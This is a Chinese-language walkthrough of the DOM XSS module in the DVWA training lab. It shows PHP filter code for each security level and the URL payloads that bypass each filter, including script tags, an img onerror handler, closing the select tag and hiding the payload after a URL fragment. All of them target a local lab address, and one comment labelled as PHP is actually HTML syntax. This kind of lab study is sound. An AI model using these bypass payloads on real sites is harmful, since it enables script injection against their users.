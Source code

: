 <center>XSS DOMdom型xss</center>









[toc]







## XSS DOMdom型xss

> XSS DOMdom型xss









### 1. low

> 低级

```php
没有任何防护
    
<?php

# No protections, anything goes
```

```shell
# 可以直接插入前端代码
http://192.168.0.111:8000/vulnerabilities/xss_d/?default=English%3Cscript%3Ealert(/xss/)%3C/script%3E
```







### medium

> 中级

```php
<?php

// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {
    $default = $_GET['default'];
    
    # Do not allow script tags
    if (stripos ($default, "<script") !== false) {
        header ("location: ?default=English");
        exit;
    }
}

```

> 做了过滤： stripos：stripos() 函数查找字符串在另一字符串中第一次出现的位置（不区分大小写）。
>
>  [runoob](https://www.runoob.com/php/func-string-stripos.html)

```shell
# img 做弹窗
http://192.168.0.111:8000/vulnerabilities/xss_d/?default=English%3Cimg%20src=1%20onerror=alert(/xss/)%3E

# 写入到 value 中了
<option value="English%3Cimg%20src=1%20onerror=alert(/xss/)%3E">English</option>

# 绕过 加</select>闭合这个html
http://192.168.0.111:8000/vulnerabilities/xss_d/?default=English%3C/select%3E%3Cimg%20src=1%20onerror=alert(/xss/)%3E
```







### 3. high

> 高级

```php

<?php

// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {

    # White list the allowable languages
    switch ($_GET['default']) {
        case "French":
        case "English":
        case "German":
        case "Spanish":
            # ok
            break;
        default:
            header ("location: ?default=English");
            exit;
    }
}
```

> 逻辑方面的漏洞
>
> ```php
> # php 注释
> <! -- 注释 -- >
> ```

```shell
# get参数，把#后面的代码注释了。返回到前端了
http://192.168.0.111:8000/vulnerabilities/xss_d/?default=French#%3Cscript%3Ealert(/xss/)%3C/script%3E
```







### 4. impossible

> 不可能的

```php

<?php

# Don't need to do anything, protction handled on the client side

```

```js
//前端做了过滤
if (document.location.href.indexOf("default=") >= 0) {
    var lang = document.location.href.substring(document.location.href.indexOf("default=")+8);
    document.write("<option value='" + lang + "'>" + (lang) + "</option>");
    document.write("<option value='' disabled='disabled'>----</option>");
}

document.write("<option value='English'>English</option>");
document.write("<option value='French'>French</option>");
document.write("<option value='Spanish'>Spanish</option>");
document.write("<option value='German'>German</option>");

```

